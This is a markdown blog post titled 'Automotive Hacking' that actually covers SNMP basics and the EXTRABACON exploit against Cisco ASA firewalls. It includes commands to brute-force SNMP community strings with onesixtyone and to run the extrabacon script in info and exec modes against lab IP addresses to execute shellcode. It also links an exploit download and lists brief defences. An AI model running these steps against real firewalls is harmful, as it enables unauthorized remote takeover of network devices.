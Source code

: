 ```yaml
---
layout: post
title: Automotive Hacking
subtitle: Overview and Notes
cover-img: /assets/img/path.jpg
tags: [Automotive, Hacking, Security]
---
```


#### Background on SNMP

The Simple Network Management Protocol (SNMP) is part of the Internet Protocol Suite that is designed to manage computers and network devices. Cisco describes it as "an application layer protocol that facilitates the exchange of information between network devices".
SNMP is a stateless, datagram oriented protocol. It involves one or more administrative computers called managers. These managers monitor and manage a group of computers. Each of the managed computers has an agent installed that communicates with the manager.

The SNMP protocol communicates on UDP port 161. The communication takes place with protocol data units or PDU's. These PDU's are of seven (7) types. 

```
GetRequest  
SetRequest  
GetNextRequest  
GetBulkRequest  
Response  
Trap  
InformRequest 
```


Steps- 
* Get SNMP IP from Wireshark 
* Use snmpcheck -t IP


#### Zero Day :[NSA Exploit in CISCO ASA]( https://www.hackers-arise.com/post/2016/08/22/the-extrabacon-zero-day-exploit-on-cisco-asa-firewalls)

According to Cisco, this EXTRABACON exploit enables  attackers within the network and with the SNMP community string to execute code remotely on their firewalls. In essence, the appliance designed to protect our network is compromised making the entire network unsafe. Like so many other pieces of remote code execution malware, EXTRABACON takes advantage of a buffer overflow in the code of the affected device

This exploit requires;
**1. SNMP be enabled on the device
2. Knowledge of the community string in any version of SNMP (v1,v2,v3)**
**3. an attack with IPv4 packets only
4. Access to a system residing on the interface to the firewall**

Note : The EXTRABACON exploit is a python script that you can [download here](https://github.com/blahdidbert/extrabacon).

**Cracking SNMP community strings( if not set to "public") and using Extrabacon:  **
	
	kali > onesixtyone 192.168.1.102 -c /usr/share/doc/onesixtyone/dict.txt
	
	kali > ./extrabacon info -t 192.168.1.101 -c hackers-arise
		This will return a file that we need in exec mode of EXTRABACON. Here, I have named that file OTW
	kali > ./extrabacon_1.1.0.1.py exec -k OTW -t 192.168.1.101 -c hackers-arise --mode pass-enable
		When the exploit is successful, it will execute the shellcode on the Cisco ASA firewall, giving the attacker complete control!
				
#### Defenses
Until Cisco releases a patch for this exploit, there are two best defenses you can apply for the time being-
1. Make your SNMP community string long and complex
2. Disable SNMP on the vulnerable device (no snmp-server enable)


For more info - [Reference](https://www.hackers-arise.com/post/2019/03/23/network-basics-for-hackers-simple-network-management-protocol-snmp-theory-reconnaissance)   
Car Hacking with Python - [Medium link](https://medium.com/bugbountywriteup/car-hacking-with-python-part-1-data-exfiltration-gps-and-obdii-can-bus-69bc6b101fd1)
